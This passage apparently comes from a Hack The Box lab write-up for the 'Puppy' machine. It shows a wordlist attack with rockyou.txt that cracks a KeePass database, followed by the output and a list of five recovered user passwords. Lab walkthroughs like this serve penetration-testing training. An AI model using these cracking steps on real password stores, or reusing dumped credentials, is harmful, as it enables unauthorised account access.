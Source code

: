 ```
python3 crack_kbdx.py recovery.kdbx /usr/share/wordlists/rockyou.txt
```

Here we have the cracked password for the `recovery.kdbx` file: `liverpool`.

```
┌──(venv)─(kali㉿kali)-[~/HTB-machine/puppy]
└─$ python3 crack_kbdx.py recovery.kdbx /usr/share/wordlists/rockyou.txt

[+] Password found: liverpool

```

Open the file using KeePassXC:

```
keepassxc recovery.kdbx
```

Here we have passwords for different users:

<img src="assets/HTB/Puppy/image2.png" alt="Error loading">

These are all the credentials:

```
JAMIE WILLIAMSON: JamieLove2025!

ADAM SILVER: HJKL2025!

ANTONY C. EDWARDS: Antman2025!

STEVE TUCKER: Steve2025!

SAMUEL BLAKE: ILY2025!
```
